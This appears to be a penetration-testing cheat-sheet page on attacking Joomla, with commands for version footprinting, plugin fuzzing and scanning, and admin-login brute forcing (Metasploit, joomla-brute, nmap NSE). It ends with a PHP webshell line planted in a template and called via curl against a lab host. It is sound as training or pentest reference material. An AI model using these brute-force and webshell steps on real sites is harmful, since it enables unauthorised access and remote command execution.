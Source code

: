 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Joomla

## 101

Joomla is typically used with `PHP` and `MySQL` (similar to [WordPress](wordpress.md)) and can be identified by its favicon:

<figure><img src="../../.gitbook/assets/joomla_favicon.png" alt=""><figcaption></figcaption></figure>

Joomla's has the following user roles:

<table><thead><tr><th width="248" align="right">User</th><th>Description</th></tr></thead><tbody><tr><td align="right"><code>Super Users</code>/<code>Administrator</code></td><td>Access to administrative features (adding, deleting users and posts, editing source code)</td></tr><tr><td align="right"><code>Administrator</code></td><td>Admin functions except global options</td></tr><tr><td align="right"><code>Manager</code></td><td>Content creation and backend system info</td></tr></tbody></table>

## Footprinting

### Manual <a href="#manually_enumerating_version" id="manually_enumerating_version"></a>

{% tabs %}
{% tab title="CMS" %}
```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```
{% endtab %}

{% tab title="Version" %}
Enumerate the version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain installs, we may be able to discover the version from other dirs or JS files:

{% code overflow="wrap" %}
```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml | xmllint --format -

curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -

# Version enumeration via JS files
curl -s http://dev.inlanefreight.local/media/system/js

# Plugins might helps us estimate the version
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml | xmllint --format -
```
{% endcode %}
{% endtab %}

{% tab title="droopescan" %}
[`droopescan`](https://github.com/SamJoan/droopescan) is a plugin-based scanner designed mostly for SilverStripe, WordPress, and Drupal, but it has some functionality for Joomla and Moodle as well:

{% code overflow="wrap" %}
```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
```
{% endcode %}
{% endtab %}

{% tab title="joomlascan" %}
[`joomlascan`](https://github.com/drego85/JoomlaScan) is an open source software that finds the components installed in Joomla CMS:

```bash
python2.7 joomlascan.py -u http://dev.inlanefreight.local
```
{% endtab %}
{% endtabs %}

## Attacks <a href="#attacking_joomla" id="attacking_joomla"></a>

### Fuzzing

{% tabs %}
{% tab title="Manual" %}
Fuzzing can be used for further directory, plugin, and theme enumeration ([joomla.txt](https://github.com/rapid7/metasploit-framework/blob/master/data/wordlists/joomla.txt)):

{% code overflow="wrap" %}
```bash
# Fuzzing for plugins
$ ffuf -u http://dev.inlanefreight.local/FUZZ -w usr/share/wordlists/joomla/joomla.txt -c -ac
```
{% endcode %}
{% endtab %}

{% tab title="MSF" %}
The MSF's module [`joomla_plugins`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_plugins/) can be used to enumerate plugins:

```bash
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > show actions
        ...actions...
msf auxiliary(joomla_plugins) > set ACTION < action-name >
msf auxiliary(joomla_plugins) > show options
        ...show and set options...
msf auxiliary(joomla_plugins) > run
```
{% endtab %}
{% endtabs %}

### BFA <a href="#joomla-bruteforce" id="joomla-bruteforce"></a>

{% hint style="warning" %}
Joomla 3.2 stable release bought 2FA as part of the core install which adds another challenge to BFAs. However, this isn't enabled by default.
{% endhint %}

The default administrator account is `admin` and the password is set at install time:

{% tabs %}
{% tab title="MSF" %}
MSF's [`joomla_bruteforce_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/http/joomla_bruteforce_login/) module can be used for a BFA:

```bash
msf > use auxiliary/scanner/http/joomla_bruteforce_login
msf auxiliary(joomla_bruteforce_login) > show actions
        ...actions...
msf auxiliary(joomla_bruteforce_login) > set ACTION < action-name >
msf auxiliary(joomla_bruteforce_login) > show options
        ...show and set options...
msf auxiliary(joomla_bruteforce_login) > run
```
{% endtab %}

{% tab title="joomla-brute" %}
[`joomla-brute`](https://github.com/ajnik/joomla-bruteforce) is Joomla login bruteforcer:

{% code overflow="wrap" %}
```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```
{% endcode %}


{% endtab %}

{% tab title="joombrute" %}
[`joombrute`](https://github.com/0rbz/JoomBrute) is a Joomla bruteforcer:

{% code overflow="wrap" %}
```bash
python joombrute.py --url http://site/administrator --username admin --wordlist passwords.txt
```
{% endcode %}
{% endtab %}

{% tab title="Nmap" %}
`nmap` has a [Joomla-specific NSE](https://nmap.org/nsedoc/scripts/http-joomla-brute.html) as well as a [general one](https://nmap.org/nsedoc/scripts/http-form-brute.html) for BFA against HTTP forms:

{% code overflow="wrap" %}
```bash
# Basic usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute <target>

# Custom usage of the Joomla-specific NSE
nmap -sV --script http-joomla-brute --script-args 'userdb=users.txt,passdb=passwds.txt,http-joomla-brute.hostname=domain.com, http-joomla-brute.threads=3,brute.firstonly=true' <target>

# General NSE script
nmap --script http-form-brute -p 80 <host>
```
{% endcode %}
{% endtab %}
{% endtabs %}

### RCE <a href="#code_execution" id="code_execution"></a>

We can upload a webshell as by editing a template (e.g. `error.php`) and adding a PHP webshell:

```php
# Webshell payload
system($_GET['c']);
```

<figure><img src="../../.gitbook/assets/joomla_rce.png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Interact with the webshell
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?c=id
```
{% endcode %}

### Vulnerabilities <a href="#known_vulnerabilities_examples" id="known_vulnerabilities_examples"></a>

There is a [live vunlerable extensions list.](https://extensions.joomla.org/vulnerable-extensions/vulnerable/)

